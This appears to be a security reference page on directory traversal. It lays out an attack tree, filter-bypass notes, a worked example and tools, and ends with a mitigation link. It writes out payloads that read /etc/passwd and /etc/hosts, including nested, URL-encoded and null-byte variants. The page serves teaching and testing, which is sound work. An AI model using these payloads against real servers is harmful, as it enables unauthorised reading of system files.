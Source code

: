 # Directory traversal

## Attack tree

```text
1 Insert relative paths into existing files (OR)
    1.1 ../../../etc/hosts
    1.2 ../../../etc/passwd
    1.3 ...
2 Absolute path from the filesystem root to directly reference a file without using any traversal sequences (OR)
    2.1 filename=/etc/hosts
    2.2 filename=/etc/passwd
    2.3 ...
3 Nested traversal sequences which will revert to simple traversal sequences when the inner sequence is stripped (OR)
    3.1 ....//
    3.2 ....\/
4 URL encoding the ../ characters (OR)
    4.1 url encoding: %2e%2e%2f
    4.2 double url encoding: %252e%252e%252f 
5 Null byte bypass
```

## Notes

Many applications that place user input have some kind of protection against path traversal attacks. 
* Applications can strip or block directory traversal sequences from the user-supplied filename => try an absolute 
path, nested traversal, and url encoding (In a `multipart/form-data request`).
* Some applications validate start of path => include the required base folder followed by suitable traversal sequences.
* It can be that the filename value must end with an expected file extension => try a null byte to effectively terminate 
the file path before the required extension.

## Examples

### Simplest form
Website has https://www.example.com/download_file.php?file=document.pdf

Pass this as the file name:

    ../../../etc/passwd

If the application does not sanitize inputs, the string is used in a system call, switches to the root and then allows 
access the `/etc/` directory and the protected passwd file.

### Null byte bypass

    filename=../../../etc/passwd%00.png

## Tools

* Developer tools browser
* [BurpSuite](https://portswigger.net/burp)

## Mitigations

* [Input validation](app-mitigations:docs/coding/input)